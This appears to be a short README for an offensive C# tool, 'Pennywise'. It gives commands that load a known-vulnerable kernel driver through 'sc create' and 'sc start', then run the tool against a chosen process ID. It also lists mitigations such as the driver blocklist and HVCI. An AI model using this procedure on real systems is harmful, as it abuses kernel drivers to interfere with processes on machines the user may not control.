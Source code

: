 # Pennywise

This is a c# tinny version of Blackout: https://github.com/ZeroMemoryEx/Blackout

sample of vulnerable driver: https://www.loldrivers.io/drivers/7ce8fb06-46eb-4f4f-90d5-5518a6561f15/

Works with HVCI enabled: HVCI is designed to ensure the integrity of code executed in the kernel, but it cannot protect against all possible vulnerabilities or actions that can be performed through drivers or system interfaces.

# Steps

1) Load and start the driver:

```
sc create Pennywise binPath="c:\path\to\driver.sys" type= kernel start= demand
sc start Pennywise
```

2) Start Pennywise

```
Pennywise.exe -p PID
```

# Recommendations

1) <a href="https://learn.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-driver-block-rules">Windows recommended driver blocklist</a>
2) Enable HVCI to prevent code execution on kernel
3) Limit local privileges, audit and prevent privesc attacks.
